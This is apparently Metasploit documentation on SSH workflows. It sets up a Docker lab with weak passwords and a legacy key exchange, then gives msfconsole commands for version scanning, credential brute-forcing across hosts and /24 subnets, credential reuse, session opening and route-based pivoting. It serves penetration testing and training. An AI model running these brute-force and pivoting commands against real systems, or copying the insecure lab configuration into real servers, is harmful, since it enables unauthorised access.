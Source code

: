 ## SSH Workflows

SSH, also known as Secure Shell or Secure Socket Shell, is frequently found on port 22/TCP. The protocol allows for SSH clients to securely connect to a running SSH server to execute commands against, the protocol also supports tunneling network traffic - which Metasploit can leverage for pivoting purposes.

Metasploit has support for multiple SSH modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Opening sessions
- Pivoting support

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf6 > search ssh
```

### Lab Environment

There are multiple SSH servers to choose from and install on a host machine, including:
- OpenSSH - OpenBSD Secure Shell, most popular
- Dropbear

It is also possible to use [Docker](https://www.docker.com/). First create a new `Dockerfile`:

```docker
FROM alpine:latest

RUN apk add --update
RUN apk --no-cache add openssh
RUN ssh-keygen -A
RUN echo 'root:toor' | chpasswd

RUN echo $' AuthorizedKeysFile .ssh/authorized_keys\n\
GatewayPorts no \n\
X11Forwarding no \n\
Subsystem       sftp    /usr/lib/ssh/sftp-server \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes' > /etc/ssh/sshd_config

RUN echo "KexAlgorithms diffie-hellman-group1-sha1"  >> /etc/ssh/sshd_config

RUN addgroup -g 700 test_user \
    && adduser -G test_user -D -u 700 -S -h /home/test_user -s /bin/sh test_user
RUN echo -n 'test_user:password123' | chpasswd

EXPOSE 22

CMD ["/usr/sbin/sshd","-D"]
```

Build and run:

```
docker build --tag ssh_lab:latest - < Dockerfile
docker run --rm -it --publish 127.0.0.1:2222:22 ssh_lab:latest
```

It should now be possible to test the SSH login from msfconsole:

```msf
msf6 > use scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://test_user:password123@127.0.0.1:2222

[*] 127.0.0.1:2222 - Starting bruteforce
[+] 127.0.0.1:2222 - Success: 'test_user:password123' 'uid=700(test_user) gid=700(test_user) groups=700(test_user),700(test_user) Linux 5a26fe63abef 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 Linux '
[*] SSH session 1 opened (127.0.0.1:57318 -> 127.0.0.1:2222 ) at 2022-04-23 01:25:01 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Note that TCP forwarding requires the `AllowTcpForwarding` option to be enabled in the server's configuration file, which is often the default. If the option is disabled or the more specific `PermitOpen` option does not allow the connection to be made, the connection will fail with the `administratively prohibited` error.

### SSH Enumeration

Enumerate SSH version:

```
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
```

### SSH Bruteforce

Brute-force host with known user and password list:

```
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### SSH Login Session

If you have valid SSH credentials the `ssh_login` module will open a Metasploit session for you:

```
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
```

Re-using SSH credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
```

### SSH Pivoting

It is only possible to perform SSH Pivoting if the remote target has the `AllowTcpForwarding` option be enabled in the server's configuration file, which is often the default. If the option is disabled or the more specific `PermitOpen` option does not allow the connection to be made, the connection will fail with the `administratively prohibited` error.

Like Meterpreter, it is possible to [port forward through a Metasploit SSH session](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login.md#session-capabilities):

```
route add 172.18.103.0/24 ssh_session_id
```

To a route for the most recently opened Meterpreter session:

```
route add 172.18.103.0/24 -1
```

